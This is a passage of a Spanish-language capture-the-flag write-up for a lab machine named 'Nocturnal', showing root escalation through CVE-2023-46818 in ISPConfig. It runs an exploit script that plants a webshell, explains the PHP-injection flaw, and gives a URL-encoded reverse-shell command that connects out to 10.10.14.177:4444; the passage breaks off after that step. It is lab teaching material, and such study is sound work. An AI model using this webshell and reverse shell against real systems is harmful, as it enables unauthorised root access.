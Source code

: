 y este debería ser la forma en la que ejecutamos el exploit

```bash
╭─kali@kali ~/Nocturnal/exploits via 🐍 v3.13.6  at 🕐 21:15
╰─❯ python3 exploit.py http://localhost:9001/ admin 'slowmotionapocalypse'
[+] Logged in
[+] Webshell planted as /admin/sh.php
[+] Command output:
 OKuid=0(root) gid=0(root) groups=0(root)
```

> [!NOTE]
> ## ¿Qué es y por qué ocurre?
> **CVE-2023-46818** afecta a **ISPConfig ≤ 3.2.11** cuando está activada la opción `admin_allow_langedit`. El editor de idiomas (`/admin/language_edit.php`) procesa el parámetro `records[]` sin sanitización suficiente, permitiendo **inyección de PHP** y ejecución de código con los privilegios del proceso de la interfaz web (en algunas instalaciones, ese contexto puede llegar a ser root). El fallo quedó **parchado en 3.2.11p1**. [NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-46818?utm_source=chatgpt.com)[ISPConfig](https://www.ispconfig.org/blog/ispconfig-3-2-11p1-released/?utm_source=chatgpt.com)
> 
>  Importante: el propio proyecto indica que la explotación requiere estar autenticado como el **usuario “admin” (superadmin incorporado)**; cuentas de cliente/reseller/email y “otros admins” creados adicionalmente **no** estarían afectadas por este vector.

ahora podremos verificar si tenemos una webshell, dentro de la ruta `/admin/sh.php` y usando el parametro `id`

![id-root](/assets/img/nocturnal-easy/Pasted%20image%2020250824182138.png)

confirmamos que la webshell se hizo y tenemos root, quizás pudiéramos verificar la rota root y sacar le flag, pero que sentido tiene si no lo hacemos en la terminal no? vamos a eso

ahora hagamos lo mismo pero para una Reverse shell

Reverse shell:

```bash
http://localhost:9001/admin/sh.php?c=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.177/4444%200%3E%261%27
```

Y ya como root:
